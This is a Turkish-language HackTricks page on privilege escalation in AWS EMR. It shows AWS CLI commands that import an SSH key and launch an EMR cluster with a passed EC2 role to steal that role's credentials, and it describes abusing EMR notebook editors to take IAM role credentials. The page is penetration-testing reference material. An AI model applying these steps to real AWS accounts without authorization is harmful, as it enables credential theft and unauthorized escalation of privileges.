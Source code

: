 # AWS - EMR Yetki Yükseltme

{% hint style="success" %}
AWS Hacking'i öğrenin ve uygulayın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve uygulayın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) katılın veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **HackTricks** ve **HackTricks Cloud** github depolarına PR göndererek hacking püf noktalarını paylaşın.

</details>
{% endhint %}

## EMR

EMR hakkında daha fazla **bilgi** için:

{% content-ref url="../aws-services/aws-emr-enum.md" %}
[aws-emr-enum.md](../aws-services/aws-emr-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `elasticmapreduce:RunJobFlow`

Bu izinlere sahip bir saldırgan, **yeni bir EMR kümesi çalıştırabilir ve EC2 rollerini ekleyebilir** ve kimlik bilgilerini çalmaya çalışabilir.\
Bunun için hesaba **ithal edilmiş bir ssh priv anahtarı bilmeli veya bir tane ithal etmelisiniz** ve **ana düğümde 22 numaralı bağlantı noktasını açabilmelisiniz** (`--ec2-attributes` içinde `EmrManagedMasterSecurityGroup` ve/veya `ServiceAccessSecurityGroup` öznitelikleri ile bunu yapabilirsiniz).
```bash
# Import EC2 ssh key (you will need extra permissions for this)
ssh-keygen -b 2048 -t rsa -f /tmp/sshkey -q -N ""
chmod 400 /tmp/sshkey
base64 /tmp/sshkey.pub > /tmp/pub.key
aws ec2 import-key-pair \
--key-name "privesc" \
--public-key-material file:///tmp/pub.key


aws emr create-cluster \
--release-label emr-5.15.0 \
--instance-type m4.large \
--instance-count 1 \
--service-role EMR_DefaultRole \
--ec2-attributes InstanceProfile=EMR_EC2_DefaultRole,KeyName=privesc

# Wait 1min and connect via ssh to an EC2 instance of the cluster)
aws emr describe-cluster --cluster-id <id>
# In MasterPublicDnsName you can find the DNS to connect to the master instance
## You cna also get this info listing EC2 instances
```
Not alınan **EMR rolü** `--service-role` içinde belirtilir ve bir **ec2 rolü** `--ec2-attributes` içinde `InstanceProfile` içinde belirtilir. Ancak, bu teknik sadece EC2 rolü kimlik bilgilerini çalmaya izin verir (ssh aracılığıyla bağlanacağınız için) ancak EMR IAM Rolünü değil.

**Potansiyel Etki:** Belirtilen EC2 hizmet rolüne yükseltme yapma.

### `elasticmapreduce:CreateEditor`, `iam:ListRoles`, `elasticmapreduce:ListClusters`, `iam:PassRole`, `elasticmapreduce:DescribeEditor`, `elasticmapreduce:OpenEditorInConsole`

Bu izinlerle bir saldırgan **AWS konsoluna** gidebilir, bir Not Defteri oluşturabilir ve ona erişerek IAM Rolünü çalabilir.

{% hint style="danger" %}
Not Defteri örneğine bir IAM rolü ekleseniz bile testlerimde fark ettiğim gibi AWS yönetilen kimlik bilgilerini çalabildim ve IAM rolü ile ilgili kimlik bilgilerini çalamadım.
{% endhint %}

**Potansiyel Etki:** AWS yönetilen rol arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile'ye yükseltme yapma

### `elasticmapreduce:OpenEditorInConsole`

Sadece bu izinle bir saldırgan **Jupyter Not Defterine erişebilir ve ona ilişkilendirilen IAM rolünü** çalabilir.\
Not defterinin URL'si `https://<notebook-id>.emrnotebooks-prod.eu-west-1.amazonaws.com/<notebook-id>/lab/`

{% hint style="danger" %}
Not Defteri örneğine bir IAM rolü ekleseniz bile testlerimde fark ettiğim gibi AWS yönetilen kimlik bilgilerini çalabildim ve IAM rolü ile ilgili kimlik bilgilerini çalamadım.
{% endhint %}

**Potansiyel Etki:** AWS yönetilen rol arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile'ye yükseltme yapma

{% hint style="success" %}
AWS Hacking'i öğrenin ve uygulayın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve uygulayın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) katılın veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking püf noktalarını paylaşarak** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına PR gönderin.

</details>
{% endhint %}
